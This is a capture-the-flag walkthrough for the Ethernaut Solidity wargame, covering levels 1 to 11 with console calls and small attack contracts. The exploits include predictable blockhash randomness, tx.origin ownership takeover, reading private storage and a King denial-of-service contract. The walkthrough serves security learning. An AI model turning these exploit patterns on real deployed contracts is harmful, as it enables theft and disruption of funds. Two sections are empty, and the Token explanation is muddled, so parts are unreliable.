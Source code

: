# 1. Hello Ethernaut
The instructions ask to call the `info()` method
```
contract.info()
```
We follow the output and call:
```
contract.info1()
```
Then...
```
contract.info2()
```
To get `infoNum`, we call its public getter
```
contract.infoNum()
```
`infoNum()` returns `42` as a BigNumber, so we call `info42()`
```
contract.info42()
```
Following the output again
```
contract.theMethodName()
```
Then...
```
contract.method7123949()
```
To know what is the password, we inspect the contract's ABI
```
contract
```
We call the method `password()`
```
contract.password()
```
We finally pass the output to the `authenticate()` method
```
contract.authenticate("ethernaut0")
```

# 2. Fallback
First of all we need to send the contract an amount that is less than `0.001 ether` in order to make a contribution
```
contract.contribute.sendTransaction({from: player, value: toWei("0.0001")})
```
Afterwards, we send another non-zero amount to become an owner (received by the function `receive()`)
```
contract.sendTransaction({from: player, value: toWei(0.0000001)})
```
We can now withdraw all of the contract's balance using `withdraw()`
```
contract.withdraw()
```

# 3. Fallout
In older Solidity versions, the constructor used to defined with the contract's name.  
So, to claim ownership we call the constructor which is named by mistake `fal1out()` instead of `fallout()` 
```
contract.Fal1out()
```

# 4. Coin Flip
In order to guess the right side, we need to implement the same coin flip generation code then pass the result to the `guess()` function.  
The block time is long enough that the `block.number` doesn't change between function calls.
```Solidity
contract Hack {
    uint256 constant FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;
    
    function _guess() public view returns(bool){
    uint256 blockValue = uint256(blockhash(block.number - 1));
    uint256 coinFlip = blockValue / FACTOR;
    bool side = coinFlip == 1 ? true : false;

    return side;
    
    }

    function attack(address _victim) external {
        bool guess = _guess();
        ICoinFlip(_victim).flip(guess);
    }

}
```


# 5. Telephone
In order to claim ownership, we need to call the `changeOwner()` method using an intermediate contract. This way, the `tx.origin` is going to be `player` and the `msg.sender` is going to be the address of the intermediate contract `Hack`.
```Solidity
contract Hack {

    function attack(address _victim) external {
        ITelephone(_victim).changeOwner(msg.sender);
    }

}
```

# 6. Token
To increase our balance we use the `transfer()` method.  
However, in order to get the maximum of tokens, we need to ensure that our balance is equal to the maximum value of `uint256`. 
In order to get this value, we substract the amount we already have to prevent an overflow.
```Solidity
tokenContract.transfer(msg.sender, type(uint).max - tokenContract.balanceOf(msg.sender)); 
```

# 7. Delegation
```
contract.sendTransaction({from: player, to: this, value:0, data: "0xdd365b8b" })
```


# 8. Force



# 9. Vault
```
web3.eth.getStorageAt(instance, "1")
```

# 10. King
This level consists of a game to claim the King title. Our aim is to break it.  
We notice that the previous king receives `msg.value` using `transfer()` and that the `msg.sender` becomes the king once the transfer is succeeded. But what if this previous king couldn't receive any ether?  
So, in order to break the game, we need to make a contract that can't receive ether, in other words, it doesn't implement a `receive()` nor a `fallabck()` function.
```Solidity
contract Hack{
    address public victim;

    constructor(address _victim){
        victim = _victim;
    }

    function attack() public payable{
        (bool success,) = payable(victim).call{value: msg.value}("");
        require(success);
    }

}
```

# 11. Re-entrancy

